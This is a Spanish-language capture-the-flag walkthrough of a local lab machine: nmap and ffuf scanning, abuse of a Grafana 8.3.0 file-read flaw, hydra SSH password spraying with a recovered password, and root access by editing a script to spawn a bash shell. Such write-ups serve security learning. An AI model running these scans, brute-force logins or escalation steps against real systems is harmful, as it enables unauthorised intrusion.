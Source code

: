 Fecha: 03/08/2024
Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240903173808.png)

Compruebo el puerto 3000 y es grafana v8.3.0. 
Lo primero que hago es fuzzing para buscar algo interesante en el servidor http: 

```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](imágenes/Pasted%20image%2020240903174102.png)

Leyendo maintenance.html, encuentro lo siguiente:
![](imágenes/Pasted%20image%2020240903174130.png)

Paso a investigar sobre esa versión de grafana:
![](imágenes/Pasted%20image%2020240903174249.png)

Usaré el código que proporcionan para intentar abusar de la vulnerabilidad. Me permite leer un archivo, así que elijo el encontrado anteriormente:
![](imágenes/Pasted%20image%2020240903174534.png)

Ahora usaré hydra para probar esta contraseña con múltiples usuarios:
```shell
hydra -p t9sH76gpQ82UFeZ3GXZS  -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt ssh://172.17.0.2 -t 16 
```

![](imágenes/Pasted%20image%2020240903175020.png)

Accedo por ssh y compruebo permisos:
![](imágenes/Pasted%20image%2020240903175158.png)

Como puedo editar el script ya que freddy es el dueño, ejecutaré bash desde el mismo para convertirme en superusuario: 

```python
import os

os.system("/bin/bash")
```

![](imágenes/Pasted%20image%2020240903175702.png)

